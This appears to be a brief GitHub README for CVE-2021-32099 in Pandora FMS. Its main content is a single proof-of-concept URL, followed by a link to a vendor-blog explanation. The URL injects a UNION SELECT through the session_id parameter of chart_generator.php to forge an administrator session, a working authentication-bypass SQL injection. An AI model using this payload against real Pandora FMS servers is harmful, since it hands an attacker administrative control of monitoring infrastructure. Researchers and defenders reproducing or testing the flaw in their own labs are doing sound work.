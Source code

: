 # CVE-2021-32099
CVE-2021-32099

POC : http://localhost:8000/pandora_console/include/chart_generator.php?session_id=a%27%20UNION%20SELECT%20%27a%27,1,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20FROM%20tsessions_php%20WHERE%20%271%27=%271

Deatil : https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained
